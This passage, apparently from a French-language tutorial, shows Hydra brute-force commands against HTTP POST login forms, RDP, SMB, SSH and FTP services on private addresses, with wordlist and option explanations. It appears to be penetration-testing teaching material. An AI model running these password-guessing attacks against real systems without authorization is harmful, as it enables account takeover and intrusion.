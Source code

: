 Pour attaquer un formulaire de connexion HTTP qui utilise la méthode POST. Vous devrez analyser le formulaire pour trouver les noms des champs utilisateur et mot de passe, ainsi que l'URL d'action.

Exemple de commande pour un formulaire avec les champs `user` et `pass` et une page de succès `Welcome.php` :

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.1.102 http-post-form "/login.php:user=^USER^&pass=^PASS^:S=Welcome.php"
```

*   `/login.php` : Le chemin vers la page de connexion.
*   `user=^USER^&pass=^PASS^` : Les noms des champs du formulaire et les marqueurs pour l'utilisateur et le mot de passe.
*   `S=Welcome.php` : Indique à Hydra de rechercher la chaîne "Welcome.php" dans la réponse pour déterminer une connexion réussie.

#### 4. Attaque RDP (Remote Desktop Protocol)

Pour attaquer un service RDP :

```bash
hydra -L /chemin/vers/liste_utilisateurs.txt -P /chemin/vers/liste_mots_de_passe.txt rdp://192.168.1.103
```

#### 5. Attaque SMB (Server Message Block)

Pour attaquer un partage SMB :

```bash
hydra -L /chemin/vers/liste_utilisateurs.txt -P /chemin/vers/liste_mots_de_passe.txt smb://192.168.1.104
```

#### 6. Utilisation d'un fichier de paires utilisateur:motdepasse

Si vous avez un fichier contenant des paires utilisateur:motdepasse (par exemple, `credentials.txt` avec `user1:pass1`, `user2:pass2`, etc.) :

```bash
hydra -C /chemin/vers/credentials.txt ssh://192.168.1.101
```

#### 7. Spécifier un port non standard

Si le service tourne sur un port non standard (par exemple, SSH sur le port 2222) :

```bash
hydra -l user -P passlist.txt -s 2222 ssh://192.168.1.101
```

#### 8. Arrêter après la première paire trouvée

Pour arrêter le scan dès qu'une paire valide est trouvée :

```bash
hydra -f -l user -P passlist.txt ftp://192.168.1.100
```
